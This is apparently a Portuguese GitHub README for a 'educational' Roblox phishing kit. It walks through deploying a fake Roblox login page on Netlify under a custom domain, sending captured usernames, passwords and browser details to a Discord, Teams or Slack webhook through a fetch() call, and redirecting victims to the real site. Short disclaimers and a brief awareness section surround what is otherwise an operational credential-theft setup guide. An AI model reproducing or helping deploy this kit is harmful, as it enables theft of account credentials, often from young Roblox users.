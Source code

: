 # 🎓 Roblox Phishing Educativo

Este projeto foi criado **exclusivamente para fins educacionais** para demonstrar aos alunos como funcionam ataques de phishing e a importância da segurança digital.

## ⚠️ AVISO IMPORTANTE

- **USO APENAS EDUCACIONAL**: Este projeto deve ser usado apenas em ambientes controlados para fins educacionais
- **NÃO USE EM PRODUÇÃO**: Não use este código para capturar dados reais de usuários
- **RESPONSABILIDADE**: O usuário é responsável pelo uso adequado deste material

## 🚀 Como Configurar

### 1. Configurar Webhook (Discord/Teams)

#### Opção A: Discord Webhook
1. Crie um servidor Discord
2. Vá em Configurações do Canal → Integrações → Webhooks
3. Crie um novo webhook e copie a URL
4. Substitua a URL no arquivo `index.html`:

```javascript
fetch('SUA_URL_DO_DISCORD_WEBHOOK_AQUI', {
```

#### Opção B: Microsoft Teams Webhook
1. No Teams, vá em um canal → ⋮ → Conectores
2. Configure um "Incoming Webhook"
3. Copie a URL gerada
4. Substitua no código

#### Opção C: Slack Webhook
1. Vá em api.slack.com/apps
2. Crie um novo app com Incoming Webhooks
3. Copie a URL do webhook

### 2. Hospedar no Netlify

1. **Criar conta no Netlify**:
   - Acesse [netlify.com](https://netlify.com)
   - Faça login com GitHub

2. **Fazer deploy**:
   - Arraste a pasta `ROBLOX-Phishing` para o Netlify
   - Ou conecte com GitHub e faça push do código

3. **Configurar domínio**:
   - O Netlify fornecerá um domínio como `seu-site.netlify.app`
   - Você pode configurar um domínio personalizado

### 3. Testar o Sistema

1. Acesse o site hospedado
2. Digite dados de teste (não reais!)
3. Clique em "Entrar"
4. Verifique se os dados chegaram no seu webhook

## 📋 Funcionalidades

- ✅ Captura de username/email
- ✅ Captura de senha
- ✅ Timestamp da tentativa
- ✅ User Agent do navegador
- ✅ URL da página
- ✅ Redirecionamento para site real
- ✅ Compatível com React (formulário dinâmico)

## 🔧 Personalização

### Alterar Webhook
Edite a linha no `index.html`:
```javascript
fetch('SUA_NOVA_URL_AQUI', {
```

### Alterar Redirecionamento
Edite a linha:
```javascript
window.location.href = 'https://www.roblox.com/login';
```

### Personalizar Mensagem
Edite o formato da mensagem:
```javascript
text: `🔐 **Dados Capturados - Roblox Login**\n\n👤 **Usuário:** ${username}\n🔑 **Senha:** ${password}`
```

## 📚 Material Educacional

### O que Demonstrar aos Alunos:

1. **Como identificar phishing**:
   - Verificar URL do site
   - Verificar certificado SSL
   - Não clicar em links suspeitos

2. **Boas práticas**:
   - Usar autenticação de dois fatores
   - Verificar sempre a URL antes de digitar credenciais
   - Usar gerenciadores de senha

3. **Consequências**:
   - Roubo de contas
   - Perda de dados pessoais
   - Comprometimento de segurança

## 🛡️ Segurança

- Use apenas dados fictícios para demonstração
- Não compartilhe o link com pessoas não autorizadas
- Desative o webhook após a demonstração
- Considere usar um ambiente isolado

## 📞 Suporte

Para dúvidas sobre configuração ou uso educacional, consulte a documentação oficial do Netlify e das plataformas de webhook.

---

**Lembre-se**: Este projeto é apenas para fins educacionais e de conscientização sobre segurança digital! 🎓
"# roblox" 
